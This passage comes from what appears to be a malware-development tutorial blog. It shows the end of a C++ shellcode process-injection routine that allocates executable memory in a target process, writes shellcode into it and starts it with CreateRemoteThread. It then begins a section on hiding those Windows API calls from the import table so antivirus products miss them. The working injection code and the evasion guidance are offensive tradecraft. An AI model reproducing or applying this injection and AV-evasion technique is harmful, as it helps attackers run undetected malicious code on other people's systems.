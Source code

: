 ```cpp
	PVOID baseAddress;
	baseAddress = VirtualAllocEx(hProcess, nullptr, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(hProcess, baseAddress, shellcode, shellcodeSize, nullptr);

	HANDLE hThread;
	hThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)baseAddress, nullptr, 0, nullptr);

	CloseHandle(hProcess);

	return 0;
}
```

## Hiding Function Calls

Is there anything else that we can improve? Of course! If we analyze our binary, we can see that the functions we used (`OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` and `CloseHandle`) are listed in the binary's **Import Address Table**. This is a red flag since AVs look for a combination of these Windows APIs, which are commonly used for malicious purposes.

[![Current Import Table](/static/img/2021-12-15-lazy-maldev/import-table-before.png)](/static/img/2021-12-15-lazy-maldev/import-table-before.png)
